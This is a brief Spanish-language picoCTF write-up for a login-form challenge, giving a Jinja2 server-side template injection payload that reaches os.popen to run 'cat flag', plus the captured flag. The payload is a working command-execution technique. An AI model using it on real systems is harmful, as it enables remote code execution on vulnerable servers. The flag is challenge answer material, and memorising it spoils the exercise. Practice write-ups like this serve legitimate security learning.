 #### - **Descripción** 
Ayúdenos a probar el formulario enviando el nombre de usuario `test`y la contraseña como`test!`
Habrá detalles adicionales disponibles después de lanzar su instancia de desafío.
#### Pista 
¿Alguna redirección?
#### - **Solución** 
**{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat flag').read() }}** 
 picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_73c99823}
